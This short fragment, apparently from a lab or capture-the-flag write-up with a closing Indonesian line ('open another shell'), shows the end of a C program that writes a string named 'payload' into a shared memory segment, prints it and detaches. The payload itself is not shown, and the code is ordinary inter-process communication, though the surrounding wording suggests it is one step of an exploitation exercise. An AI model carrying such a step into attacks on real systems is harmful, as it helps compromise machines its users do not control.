 ```
    // Write the payload to the shared memory segment.
    snprintf(shmaddr, SHM_SIZE, "%s", payload);

    // Optionally, print the content that was written.
    printf("Shared Memory Content:\n%s\n", shmaddr);

    // Detach from the shared memory segment.
    if (shmdt(shmaddr) == -1) {
        perror("shmdt");
        exit(EXIT_FAILURE);
    }

    return 0;
}
```

![](Pasted%20image%2020250301151752.png)

Buka shell lain